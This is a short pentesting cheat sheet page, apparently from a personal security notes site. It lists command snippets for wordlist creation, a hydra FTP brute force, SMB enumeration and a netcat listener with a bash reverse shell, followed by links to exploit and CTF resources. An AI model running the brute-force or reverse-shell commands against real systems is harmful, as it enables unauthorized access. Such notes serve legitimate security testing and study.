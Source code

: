 ```yaml
---
layout: page
title:  "Pentesting tools"
permalink: "pentesting-tricks.html"
tags: [security, pentesting]
summary: ""
---
```


* Decode base64: `echo ‘base64 encoded text’ | base64 -d`
* Create a dictionary from words on a webpage: `cewl http://test.com -w /root/tmp/dict.txt`
* FTP bruteforce: `hydra -L dict.txt -P dict.txt 192.168.1.104 ftp`
* Netbios name scanner: `nbtscan $IP`
* `rpcclient -U "user" $IP`
* `enum4linux $IP`
* ROT13: `rahash2 -E rot -S s:13 -s ‘A string\n’`
* Netcat and bash redirection:
  - Attacker: `nc -nlvp 4444`
  - Victim: `bash -i >& /dev/tcp/192.168.33.129/4444 0>&1`
* List all process listening on the network: `netstat -plant`


## Resources and references
* [LittleBlackBox tool](https://github.com/devttys0/littleblackbox/tree/master/docs)
* [Linux exploit suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester/blob/master/README.md)
* [Windows exploit suggester](https://github.com/bitsadmin/wesng)
* [RTP streams tool by GoogleProjectZero](https://github.com/googleprojectzero/Street-Party)
* [CTF resources](https://ctfs.github.io/resources/)
* [2 of diamonds Metasploit CTF writeup](https://www.tinkerfairy.net/2-of-diamonds.txt)
* [Schneider-Electric Automation Server](https://www.hackers-arise.com/single-post/2016/07/25/Mr-Robot-Hacks-How-fsociety-Hacked-of-the-SmartHome-of-The-Evil-Corp-Exec)
* [Word exploitation](https://www.hackers-arise.com/single-post/2018/03/05/Metasploit-Basics-Part-11-Exploiting-Fileformat-Vulnerabilities-in-MS-Office)
* [Techniques for bypassing Python sandboxes](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/)
